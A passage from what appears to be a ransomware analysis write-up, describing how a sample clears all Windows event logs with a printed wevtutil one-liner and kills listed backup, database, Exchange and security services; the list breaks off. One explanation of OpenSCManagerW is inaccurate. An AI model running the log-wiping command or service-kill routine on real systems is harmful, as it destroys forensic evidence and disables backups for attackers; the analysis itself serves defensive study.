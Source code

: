 ### Delete Event logs.

Then, it runs the following script:

```powershell
"C:\Windows\system32\cmd.exe" /c "cmd.exe /c  for /F \"tokens=*\" %1 in ('wevtutil.exe el') DO wevtutil.exe cl \"%1\""
```

This script is used to clear the Event logs entries. It gets all the event logs using `wevtutil.exe el` and uses `wevtutil.exe cl` to clear them. 

### Kill Targeted Services & Processes

Then it is called Global\SvcctrlStartEvent_A3752DX and `OpenScManagerW` ****according to google, this is used to duplicate windows services.  Then it uses `EnumServicesStatusExW` to list all the services and then kills the services specified in the `kill_services` in the configurations.  For every service, it runs a loop to compare against every entry in the saved `kill_services` . The targeted services to kill are:

```c
   "mepocs",
    "memtas",
    "veeam",
    "svc$",
    "backup",
    "sql",
    "vss",
    "msexchange",
    "sql$",
    "mysql",
    "mysql$",
    "sophos",
    "MSExchange",
    "MSExchange$",
    "WSBExchange",
    "PDVFSService",
    "BackupExecVSSProvider",
    "BackupExecAgentAccelerator",
    "BackupExecAgentBrowser",
    "BackupExecDiveciMediaService",
    "BackupExecJobEngine",
    "BackupExecManagementService",
    "BackupExecRPCService",
    "GxBlr",
    "GxVss",
    "GxClMgrS",
    "GxCVD",
    "GxCIMgr",
    "GXMMM",
    "GxVssHWProv",
    "GxFWD",
    "SAPService",
    "SAP",
    "SAP$",
    "SAPD$",
    "SAPHostControl",
    "SAPHostExec",
    "QBCFMonitorService",
    "QBDBMgrN",
    "QBIDPService",
    "AcronisAgent",
    "VeeamNFSSvc",
    "VeeamDeploymentService",
    "VeeamTransportSvc",
```